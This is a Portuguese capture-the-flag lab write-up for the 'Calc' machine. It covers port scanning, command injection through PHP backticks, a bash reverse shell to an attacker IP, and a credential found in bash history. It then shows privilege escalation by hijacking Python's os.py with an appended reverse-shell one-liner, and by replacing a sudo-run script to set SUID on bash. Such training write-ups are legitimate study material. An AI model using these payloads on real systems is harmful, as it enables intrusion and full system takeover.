```yaml
---
title: 'Calc Writeup'
date: '2024-11-09'
tags: ['Command Injection', 'Linux']
draft: false
summary: 'A máquina Calc é vulnerável a injeção de código, acesso não autorizado a arquivos e hijacking de bibliotecas Python para escalonamento de privilégios.'
images: ['/static/images/calc-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/calc-writeup-images/default.png)

## **Plataforma**: Hacking Club

### **Dificuldade**: Easy

### **Nome**: Calc

---

## Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 b6:e6:c1:f0:e4:01:a0:e5:c0:fb:84:e1:4f:ed:62:c3 (RSA)
|   256 f5:6d:d7:13:c7:3a:c4:63:a1:38:f0:f3:65:83:82:3e (ECDSA)
|_  256 ca:f8:f2:bf:b8:25:08:77:39:0c:c3:53:0f:cc:9f:40 (ED25519)
80/tcp  open  http    Apache httpd 2.4.46 (() PHP/7.4.19)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Calc
|_http-server-header: Apache/2.4.46 () PHP/7.4.19
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
```

## Somente as portas 22 (SSH), 80 (HTTP) e 111 (RCP) estão abertas.

## http://172.16.7.88

![calc](/static/images/calc-writeup-images/image.png)

Aplicação se trata de uma calculadora online.

![calc 1](/static/images/calc-writeup-images/image1.png)

Caputrei a requisição com o Burp.

![calc 2](/static/images/calc-writeup-images/image2.png)

Testando command injection

Por se tratar de uma aplicação em php, a gente pode testar passar os famosos ‘backticks’, pois o php entende que deve executar o que estiver entre ```` .

Nesse caso passei o `id` no parâmetro calc.

![calc 3](/static/images/calc-writeup-images/image3.png)

---

## Foot Hold

`bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'`

`crtl+u` pra encodar no burp.

![calc 4](/static/images/calc-writeup-images/image4.png)

![calc 5](/static/images/calc-writeup-images/image5.png)

---

## Lateral Movement

Credencial do usuário `sysadmim` encontrada no histórico do bash.

![calc 6](/static/images/calc-writeup-images/image6.png)

`sysadmin:55371a2307eb5fee50f54dc93224e96f`

![calc 7](/static/images/calc-writeup-images/image7.png)

---

## Privillege Escalation

`sudo -l`

![calc 8](/static/images/calc-writeup-images/image8.png)

Podemos executar o `calc.py` como root; no entanto, não temos privilégios de escrita no script.

![calc 9](/static/images/calc-writeup-images/image9.png)

Olhando o script, podemos ver que ele importa o modulo `os` do python, que é o modulo responsável pela execução de comandos do sistema.

![calc 10](/static/images/calc-writeup-images/image10.png)

Pra fazer o library hijacking a gente precisa ter permissão de modificar a biblioteca do os.py, que o caso fica no diretório: `/usr/lib64/python3.7/os.py`

Nesse caso temos permissão de escrita.

![calc 11](/static/images/calc-writeup-images/image11.png)

Com isso, podemos adicionar uma reverse-shell em python de dentro da lib.

Basta colocar a reverse-shell na ultima linha do arquivo:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.31.150",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")

```

![calc 12](/static/images/calc-writeup-images/image12.png)

Por fim, só executar o comando: `sudo /usr/bin/python3 /opt/pycalc/calc.py`

![calc 13](/static/images/calc-writeup-images/image13.png)

---

## Privillege Escalation 2 (Unintended)

Olhando o diretório em que o arquivo pertence, podemos verificar que temos permissão de escrita nele diretamente.

![calc 14](/static/images/calc-writeup-images/image14.png)

Ou seja, podemos simplesmente deletar o `calc.py` e criar outro.

```python
import os

os.system("chmod u+s /bin/bash")
```

![calc 15](/static/images/calc-writeup-images/image15.png)

![calc 16](/static/images/calc-writeup-images/image16.png)
